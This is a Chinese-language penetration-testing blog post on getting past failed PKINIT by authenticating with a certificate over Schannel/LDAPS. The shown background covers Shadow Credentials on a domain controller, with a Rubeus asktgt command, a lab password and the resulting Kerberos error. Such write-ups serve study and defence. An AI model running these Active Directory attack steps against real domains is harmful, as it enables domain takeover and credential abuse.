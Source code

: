 ```yaml
---
title: Pass The Certificate when PKINIT Padata Type is NOSUPP
date: 2023-02-28 01:53:00 +0800
author: WHOAMI
toc: true
categories: ["Windows Security"]
tags: ["Active Directory", "LDAPS", "Schannel", "RBCD"]
layout: post
---
```


前段时间，我尝试为某域环境中的域控制器添加 `msDS-KeyCredentialLink` 属性来执行 Shadow Credentials，但在最后一步遇到了 PKINIT 不起作用的情况。最终，我成功使用证书通过 Schannel 对 LDAP/S 服务器进行身份验证，并执行基于资源的约束性委派攻击。



## Background

前段时间，我尝试为某域环境中的域控制器添加 `msDS-KeyCredentialLink` 属性来执行 Shadow Credentials，但在最后一步遇到了 PKINIT 不起作用的情况。

通常，在 Active Directory 环境中部署 PKI 时，会默认支持 PKINIT。然而，在我测试过程中，使用域控制器证书为域控制器申请 TGT 票据时遇到了以下错误消息：

```console
C:\Users\Marcus\Desktop>Rubeus.exe asktgt /user:DC02$ /certificate:<Base64Certificate> /password:"P0eOh6YOpgYw99mx" /domain:pentest.com /dc:DC01.pentest.com /getcredentials /show /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=DC01$
[*] Building AS-REQ (w/ PKINIT preauth) for: 'pentest.com\DC01$'
[*] Using domain controller: 172.26.10.11:88

[X] KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP


C:\Users\Marcus\Desktop>
```

根据 Microsoft 官方文档 “[*4771(F): Kerberos pre-authentication failed*](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)” 的描述，该报错显示 KDC 不支持 PADATA 类型（预认证数据）, Kerberos 预身份验证失败。

> *This event generates every time the Key Distribution Center fails to issue a Kerberos Ticket Granting Ticket (TGT). This problem can occur when a domain controller doesn't have a certificate installed for smart card authentication (for example, with a "Domain Controller" or "Domain Controller Authentication" template), the user's password has expired, or the wrong password was provided.*
